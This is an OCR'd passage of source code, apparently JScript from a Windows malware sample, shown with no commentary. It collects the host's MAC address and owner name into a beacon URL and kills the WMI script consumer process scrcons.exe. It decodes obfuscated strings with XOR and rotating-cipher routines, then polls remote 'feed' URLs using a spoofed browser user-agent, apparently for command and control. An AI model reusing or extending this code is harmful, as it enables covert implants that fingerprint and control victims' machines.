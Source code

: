 ```
      "&macaddr=" +
      $.sMacAddress +
      "&owner=" +
      $.sOwner +
      "&version=" +
      $.version +
      "&runtime=" +
      $.runtime;
    $.sURLParam += "&t=" + time.getMinutes() + time.getSeconds();
  },
  CleanObjects: function() {
    $.oShell = null;
    $.oStream = null;
    var e = new Enumerator(
      $.WMI('Select * from Win32_Process where Name="scrcons.exe"')
    );
    while (!e.atEnd()) {
      e.item().terminate();
      e.moveNext();
    }
  },
  Decode: function(sourceStr) {
    var keycode = sourceStr.charCodeAt(0);
    var source = sourceStr.substr(1);
    var vals = source.split(",");
    var result = "";
    for (var i = 0; i < vals.length; i++) {
      result += String.fromCharCode(vals[i] ^ keycode);
    }
    return result;
  },
  circleDecode: function(sc) {
    var base = sc.charCodeAt(0);
    var s = base - 32;
    var r = "";
    for (var i = 1; i < sc.length; i++) {
      var nc = sc.charCodeAt(i) - s - i + 1;
      if (nc < 32) {
        nc = 126 + (nc - 32) % 94;
      }
      r += String.fromCharCode(nc);
    }
    return r;
  },
  MainLoop: function() {
    $.oHttp = new $._x("Microsoft.XmlHttp");
    var feedUrlArry = $.sFeedUrl.split(";");
    var start = new Date();
    var oXml = new ActiveXObject("MSXML2.DOMDocument.3.0");
    for (var n = 0; n < feedUrlArry.length; n++) {
      var UrlList = new Array();
      var URLnum = 0;
      try {
        var tstr = feedUrlArry[n].match("http://.*?\\.php");
        if (tstr != null) {
          UrlList[URLnum++] = tstr;
        } else {
          $.oHttp.Open("GET", feedUrlArry[n], false);
          $.oHttp.setRequestHeader(
            "User-Agent",
            "Mozilla/5.0 (Windows; U; Windows NT 5.1; rv:1.9.1) Gecko/20090624 Firefox/3.5"
          );
          $.oHttp.Send();
```